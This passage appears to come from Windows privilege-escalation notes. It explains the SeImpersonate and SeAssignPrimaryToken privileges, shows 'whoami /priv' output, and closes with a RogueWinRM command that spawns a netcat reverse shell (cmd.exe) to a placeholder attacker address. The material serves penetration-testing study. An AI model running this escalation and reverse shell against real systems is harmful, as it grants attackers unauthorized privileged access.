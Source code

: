 |![](Images/image-1.png)|
| *... Click on "Ease of access" button* |

### SeImpersonate or SeAssignPrimaryToken
The `SeImpersonate` and `SeAssignPrimaryToken` privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Exploitation using [RogueWinRM.exe](https://github.com/antonioCoco/RogueWinRM):
```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP ATTACKER_PORT"
```
